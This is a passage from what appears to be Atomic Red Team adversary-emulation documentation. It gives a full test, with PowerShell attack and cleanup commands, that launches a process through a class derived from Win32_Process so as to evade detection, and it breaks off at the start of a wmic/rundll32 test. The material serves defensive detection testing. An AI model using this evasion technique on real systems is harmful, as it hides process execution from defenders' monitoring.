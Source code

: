 <br/>
<br/>

## Atomic Test #8 - Create a Process using obfuscated Win32_Process

This test tries to mask process creation by creating a new class that inherits from Win32_Process. Indirect call of suspicious method such as Win32_Process::Create can break detection logic.
[Cybereason blog post No Win32_ProcessNeeded](https://www.cybereason.com/blog/wmi-lateral-movement-win32)

**Supported Platforms:** Windows

**auto_generated_guid:** 10447c83-fc38-462a-a936-5102363b1c43

#### Inputs:

| Name               | Description                         | Type   | Default Value |
| ------------------ | ----------------------------------- | ------ | ------------- |
| new_class          | Derived class name                  | string | Win32_Atomic  |
| process_to_execute | Name or path of process to execute. | string | notepad.exe   |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$Class = New-Object Management.ManagementClass(New-Object Management.ManagementPath("Win32_Process"))
$NewClass = $Class.Derive("#{new_class}")
$NewClass.Put()
Invoke-WmiMethod -Path #{new_class} -Name create -ArgumentList #{process_to_execute}
```

#### Cleanup Commands:

```powershell
$CleanupClass = New-Object Management.ManagementClass(New-Object Management.ManagementPath("#{new_class}"))
try { $CleanupClass.Delete() } catch {}
```

<br/>
<br/>

## Atomic Test #9 - WMI Execute rundll32

This test uses wmic.exe to execute a DLL function using rundll32. Specify a valid value for remote IP using the node parameter.

**Supported Platforms:** Windows

**auto_generated_guid:** 00738d2a-4651-4d76-adf2-c43a41dfb243

#### Inputs:
